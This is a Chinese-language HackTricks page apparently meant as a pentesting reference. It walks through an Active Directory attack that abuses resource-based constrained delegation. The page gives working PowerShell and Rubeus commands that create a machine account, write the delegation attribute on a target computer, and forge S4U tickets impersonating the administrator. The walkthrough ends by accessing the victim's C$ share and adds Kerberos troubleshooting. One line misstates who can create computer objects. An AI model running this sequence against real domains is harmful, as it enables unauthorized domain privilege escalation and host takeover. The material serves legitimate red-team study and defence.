 # 基于资源的受限委托

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## 基于资源的受限委托基础

这与基本的 [受限委托](constrained-delegation.md) 类似，但**不是**给一个**对象**权限以**代表任何用户对服务进行 impersonate**。基于资源的受限委托**设置**在**对象中谁能够对其 impersonate 任何用户**。

在这种情况下，受限对象将具有一个名为 _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ 的属性，包含可以对其 impersonate 任何其他用户的用户的名称。

与其他委托的一个重要区别是，任何对计算机帐户具有**写权限**的用户（_GenericAll/GenericWrite/WriteDacl/WriteProperty 等）都可以设置 _**msDS-AllowedToActOnBehalfOfOtherIdentity**_（在其他形式的委托中，您需要域管理员权限）。

### 新概念

在受限委托中提到，用户的 _userAccountControl_ 值中的 **`TrustedToAuthForDelegation`** 标志是执行 **S4U2Self** 所需的。但这并不完全正确。\
实际上，即使没有该值，如果您是**服务**（具有 SPN），您也可以对任何用户执行 **S4U2Self**，但是，如果您**具有 `TrustedToAuthForDelegation`**，返回的 TGS 将是**可转发的**，如果您**没有**该标志，返回的 TGS **将不会**是**可转发的**。

然而，如果在 **S4U2Proxy** 中使用的 **TGS** **不是可转发的**，尝试滥用**基本受限委托**将**不起作用**。但如果您尝试利用**基于资源的受限委托，它将有效**（这不是漏洞，而是一个特性，显然）。

### 攻击结构

> 如果您对**计算机**帐户具有**写等效权限**，则可以在该计算机上获得**特权访问**。

假设攻击者已经对受害者计算机具有**写等效权限**。

1. 攻击者**破坏**一个具有**SPN**的帐户或**创建一个**（“服务 A”）。请注意，**任何**_管理员用户_在没有其他特殊权限的情况下可以**创建**最多 10 个**计算机对象（**_**MachineAccountQuota**_**）并为其设置一个 **SPN**。因此，攻击者可以创建一个计算机对象并设置一个 SPN。
2. 攻击者**滥用**其对受害者计算机（ServiceB）的写权限，以配置**基于资源的受限委托，允许 ServiceA 对该受害者计算机（ServiceB）进行 impersonate 任何用户**。
3. 攻击者使用 Rubeus 执行**完整的 S4U 攻击**（S4U2Self 和 S4U2Proxy），从服务 A 到服务 B，针对具有**对服务 B 的特权访问**的用户。
   1. S4U2Self（来自被破坏/创建的帐户的 SPN）：请求**管理员的 TGS 给我**（不可转发）。
   2. S4U2Proxy：使用上一步的**不可转发 TGS**请求从**管理员**到**受害主机**的**TGS**。
   3. 即使您使用的是不可转发的 TGS，由于您正在利用基于资源的受限委托，它将有效。
   4. 攻击者可以**传递票证**并**冒充**用户以获得对**受害者 ServiceB**的**访问**。

要检查域的 _**MachineAccountQuota**_，您可以使用：
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## 攻击

### 创建计算机对象

您可以使用 [powermad](https://github.com/Kevin-Robertson/Powermad) 在域内创建计算机对象**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### 配置基于资源的受限委派

**使用 activedirectory PowerShell 模块**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**使用 powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### 执行完整的 S4U 攻击

首先，我们创建了新的计算机对象，密码为 `123456`，因此我们需要该密码的哈希值：
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
这将打印该账户的 RC4 和 AES 哈希。\
现在，可以执行攻击：
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
您可以通过使用 Rubeus 的 `/altservice` 参数仅询问一次来生成更多票证：
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
注意，用户有一个属性叫做“**无法被委托**”。如果用户的此属性为 True，您将无法冒充他。此属性可以在 bloodhound 中查看。
{% endhint %}

### 访问

最后一条命令将执行 **完整的 S4U 攻击并将 TGS** 从管理员注入到受害主机的 **内存** 中。\
在此示例中，请求了来自管理员的 **CIFS** 服务的 TGS，因此您将能够访问 **C$**：
```bash
ls \\victim.domain.local\C$
```
### 滥用不同的服务票证

了解[**可用的服务票证在这里**](silver-ticket.md#available-services)。

## Kerberos 错误

* **`KDC_ERR_ETYPE_NOTSUPP`**: 这意味着 kerberos 配置为不使用 DES 或 RC4，而您仅提供了 RC4 哈希。至少向 Rubeus 提供 AES256 哈希（或同时提供 rc4、aes128 和 aes256 哈希）。示例: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: 这意味着当前计算机的时间与 DC 的时间不同，kerberos 无法正常工作。
* **`preauth_failed`**: 这意味着给定的用户名 + 哈希无法登录。您可能忘记在生成哈希时在用户名中放入“$”（`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`）
* **`KDC_ERR_BADOPTION`**: 这可能意味着：
* 您尝试模拟的用户无法访问所需的服务（因为您无法模拟它或因为它没有足够的权限）
* 请求的服务不存在（如果您请求 winrm 的票证但 winrm 没有运行）
* 创建的 fakecomputer 已失去对易受攻击服务器的权限，您需要将其恢复。

## 参考文献

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
